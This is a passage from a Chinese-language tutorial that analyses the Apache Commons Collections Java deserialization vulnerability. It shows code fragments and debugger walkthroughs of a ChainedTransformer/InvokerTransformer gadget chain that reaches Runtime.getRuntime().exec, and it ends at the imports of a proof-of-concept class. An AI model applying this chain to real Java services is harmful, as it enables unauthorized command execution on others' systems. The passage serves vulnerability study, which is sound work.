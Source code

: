 ```java
     *
     * @return 替换后的对象
     */
    protected Object writeReplace() {
        System.out.println("writeReplace....");

        return null;
    }

    protected Object readResolve() {
        System.out.println("readResolve....");

        return null;
    }

}
```

通过构建`ChainedTransformer`调用链，最终间接的使用`InvokerTransformer`完成了反射调用`Runtime.getRuntime().exec(cmd)`的逻辑。

我们可以通过动态调试细看具体的逻辑如何

打断点

![image-20230613115138091](image/十一、Apache Commons Collections反序列化漏洞/image-20230613115138091.png)

走到ChainedTransformer中的transform方法，可以看到此时object为null

![image-20230613115333271](image/十一、Apache Commons Collections反序列化漏洞/image-20230613115333271.png)

此时执行的就是Transformer数组中的第一个，new ConstantTransformer(Runtime.class)的Transformer方法，同时返回了runtime的class对象

![image-20230613120157671](image/十一、Apache Commons Collections反序列化漏洞/image-20230613120157671.png)

object值此时已经变为java.lang.Runtime,同时这个也传入下一个transformer的数组的对象。

```java
InvokerTransformer("getMethod", new Class[]{
						String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}
				)
```

![image-20230613152545136](image/十一、Apache Commons Collections反序列化漏洞/image-20230613152545136.png)

下面显而易见开始执行InvokerTransformer的Transformer方法执行的结果就是调用了runtime.getruntime

![image-20230613153214846](image/十一、Apache Commons Collections反序列化漏洞/image-20230613153214846.png)



后面发现直接传入两个数组也能执行命令，很可能这种特殊的传递链条和下面参数的入口有很大关系。下面是穿两个的代码

```java
package com.anbai.sec.serializes;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.Arrays;
```
